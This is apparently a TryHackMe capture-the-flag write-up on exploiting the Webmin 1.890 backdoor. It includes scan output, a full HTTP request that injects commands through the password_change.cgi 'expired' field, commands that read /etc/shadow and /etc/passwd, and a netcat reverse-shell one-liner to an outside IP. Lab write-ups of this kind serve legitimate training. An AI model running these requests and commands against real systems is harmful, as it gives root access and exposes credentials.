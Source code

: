 ```yaml
---
layout: post
title:  "THM - Source"
date:   2020-07-10 18:00:00 +1000
category: hacking
---
```


## Introduction
*Exploit a recent vulnerability and hack Webmin, a web-based system configuration tool.*  

So we've got a pretty big hint already. This box is rated Easy.

## Ports
nmap says we've got 22 (SSH) and 10000 only; Webmin typically runs on port 10000. Lets get some more details though.

## Port Scan Details
>PORT      STATE SERVICE REASON         VERSION  
22/tcp    open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
10000/tcp open  http    syn-ack ttl 63 MiniServ 1.890 (Webmin httpd)  

So we do have Webmin, and it's version 1.890.

## What's the vulnerability?
It's explained [here](http://www.webmin.com/exploit.html), but in short someone exploited the Webmin development build server and deliberately added a vulnerability to it. 

*Webmin version 1.890 was released with a backdoor that could allow anyone with knowledge of it to execute commands as root. Versions 1.900 to 1.920 also contained a backdoor using similar code, but it was not exploitable in a default Webmin install.*

## Searchsploit
Running searchsploit shows several exploits for Webmin 1.920, so let's fire up Metasploit and see if the server is vulnerable.

## Metasploit
The relevant module wasn't installed in my version of metasploit, so I had to add it, which I always forget how to do. But it's basically copy the module and reload the modules:

1. cp /usr/share/exploitdb/exploits/linux/remote/47230.rb /root/.msf4/modules/exploits/linux/remote/47230.rb  
2. reload_all

And after that it turns out the server wasn't vulnerable :/. So presumably it's the specific 1.89 version **only**.

## 1.89 Vuln
As it turns out it's super easy; the Burp Suite repeater payload looks like this:

>POST /password_change.cgi HTTP/1.1   
Host: 10.10.5.148:10000  
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
Accept-Language: en-US,en;q=0.5  
Accept-Encoding: gzip, deflate  
Referer: https://10.10.5.148:10000/  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 14  
Connection: close  
Cookie: redirect=1; testing=1  
Upgrade-Insecure-Requests: 1  
-----blank line-----  
expired=**whoami**

See the highlighted part above? That's remote code execution, as root. Wew lad.

Some possible commands:

``
cat+/etc/shadow  
``

``
cat+/etc/passwd  
``

``
cat+/home/dark/user.txt  
``

``
cat+/root/root.txt  
``

``
rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.9.10.123+1234+>/tmp/f
``

That last one is the only one you actually need - a reverse shell as root, thanks for playing.
